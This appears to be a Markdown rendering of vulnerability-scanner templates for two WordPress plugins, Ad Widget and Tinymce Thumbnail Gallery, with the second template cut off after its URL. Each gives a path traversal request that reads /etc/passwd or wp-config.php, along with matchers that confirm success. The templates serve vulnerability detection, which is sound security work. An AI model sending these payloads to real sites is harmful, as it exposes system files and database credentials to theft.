 
# WordPress Ad Widget 2.11.0 - Local File Inclusion

## Description

- WordPress Ad Widget 2.11.0 is vulnerable to local file inclusion. Exploiting this issue may allow an attacker to obtain sensitive information that could aid in further attacks.

- severity - high
- tags - wordpress,wp-plugin,lfi,wp,adWidget,wpscan

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/ad-widget/views/modal/?step=../../../../../../../etc/passwd%00

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---

# Tinymce Thumbnail Gallery \<=1.0.7 - Local File Inclusion

## Description

- Tinymce Thumbnail Gallery 1.0.7 and before are vulnerable to local file inclusion via download-image.php.
- severity - high
- tags - wordpress,wp-theme,lfi,wordpress,tinymce

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/tinymce-thumbnail-gallery/php/download-image.php?href=../../../../wp-config.php
